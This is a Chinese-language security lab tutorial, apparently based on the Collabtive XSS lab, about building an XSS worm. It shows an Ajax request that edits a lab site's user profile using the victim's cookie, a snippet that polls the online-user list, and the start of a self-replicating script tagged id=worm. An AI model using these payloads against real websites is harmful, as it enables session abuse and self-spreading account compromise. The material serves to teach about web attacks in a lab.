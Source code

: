 #### XSS蠕虫的危害 

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施DDoS攻击等等等。

#### XSS蠕虫的学习 

首先我么需要理解一下Ajax框架。框架代码如下：

```
    var Ajax=null;
    // 构建http请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabcollabtive.com/manageuser.php?action=edit",true);
    Ajax.setRequestHeader("Host","www.xsslabcollabtive.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    // 构建http请求内容。 内容的格式可以从浏览器插件LiveHTTPHeaders中知道长什么样
    var content="name=...&company=&..."; // 这是你需要填写的内容
    // 发送http POST请求。
    Ajax.send(content);
```

我们有一个test.js的文件；这个文件中是Ajax框架代码，我们可以使用下面的命令查看一下：

```
    sudo vim test.js
```

![3.5-1](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159744204?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

然后我们在创建一个test1.js的文件，写一个xss蠕虫代码：

```
    sudo vim test1.js
```

![3.5-2](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159761760?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这里是代码：

```
    var on=new Ajax.PeriodicalUpdater("onlinelist",
    "manageuser.php?action=onlinelist",
    //定义一个新的Ajax.PeriodicalUpdater
    {method:'get',onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为get，频率为1000
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的xss蠕虫病毒的脚本，下面这段代码是蠕虫可以自动传播：

```
    <script id=worm>//定义js的id为worm
    var strCode = document.getElementById("worm");
    //找到元素id
	alert(strCode.innerHTML);
    </script>
```
